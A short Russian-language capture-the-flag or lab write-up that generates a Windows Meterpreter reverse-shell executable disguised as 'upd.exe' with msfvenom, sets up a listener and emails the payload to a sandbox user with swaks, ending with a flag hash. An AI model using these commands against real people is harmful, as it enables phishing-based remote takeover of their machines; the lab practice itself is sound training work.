 1. Сперва нужно сгенерировать файл с нагрузкой

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.43.2 LPORT=4444 -f exe -o upd.exe
```

где:
windows/meterpreter/reverse_tcp - тип нагрузки.
LHOST=192.168.43.2 - адрес хоста где будет запущен лисенер, в даном случае локальный адрес.
LPORT=4444 - порт хоста.
upd.exe - имя и тип файла.

2.  Дальше нужно запустить  и настроить лисенер

![[Pasted image 20240608152435.png]]

3. Затем нужно отправить письмо с нагрузкой

```bash
swaks --to mike@sandbox.local --from admin@sandbox.local --server 192.168.43.231 --attach @upd.exe
```

![[Pasted image 20240608153003.png]]

Ответ: 54817fe7049221c92542027300015b601


